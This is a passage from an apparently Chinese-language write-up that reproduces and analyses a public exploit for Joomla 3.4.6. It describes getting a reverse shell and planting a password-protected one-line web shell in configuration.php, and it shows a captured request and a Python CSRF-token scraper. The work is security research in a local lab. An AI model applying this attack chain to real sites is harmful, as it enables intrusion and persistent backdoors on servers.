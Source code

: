 [https://cxsecurity.com/issue/WLB-2019100045](https://cxsecurity.com/issue/WLB-2019100045)

脚本利用

[![](https://p4.ssl.qhimg.com/t01ca72914463bd18c3.png)](https://p4.ssl.qhimg.com/t01ca72914463bd18c3.png)

执行成功反弹shell并在“configuration.php”写入随机密码的一句话木马

[![](https://p3.ssl.qhimg.com/t015ca8ca71c3696dee.png)](https://p3.ssl.qhimg.com/t015ca8ca71c3696dee.png)

可以用NC 监听和 菜刀连接 由于我的PHP是Windows环境所以无法反弹只能通过菜刀连接

caidao密码为 scgcapjoqwokhrtmlutbljpzmqzwcbncowtiztctfekiwtfzay 菜刀连接成功

[![](https://p1.ssl.qhimg.com/t01d1ad8b71c62c139f.png)](https://p1.ssl.qhimg.com/t01d1ad8b71c62c139f.png)



## Exp攻击链分析

目前互联网上公开的Exp地址:

[https://cxsecurity.com/issue/WLB-2019100045](https://cxsecurity.com/issue/WLB-2019100045)

通过漏洞复现和分析py脚本可以知道，在上传shell的时候有以下几步，之所以有这么手工步骤主要与Joomla的会话机制有关。

[![](https://p1.ssl.qhimg.com/t01ed9eb4056cefcd1c.png)](https://p1.ssl.qhimg.com/t01ed9eb4056cefcd1c.png)

**1.获取Cookie**

代码:

[![](https://p3.ssl.qhimg.com/t01369e06447bcfd0d3.png)](https://p3.ssl.qhimg.com/t01369e06447bcfd0d3.png)

通过burpeuite抓到的请求包1

```
GET /Joomla/3.4.6/index.php/component/users HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

**2.获取csrf-token （关键步骤）**

代码：

```
def get_token(url, cook):
        token = ''
        resp = requests.get(url, cookies=cook, proxies = PROXS)
        html = BeautifulSoup(resp.text,'html.parser')
        # csrf token is the last input
        for v in html.find_all('input'):
                csrf = v
        csrf = csrf.get('name')
        return csrf
```
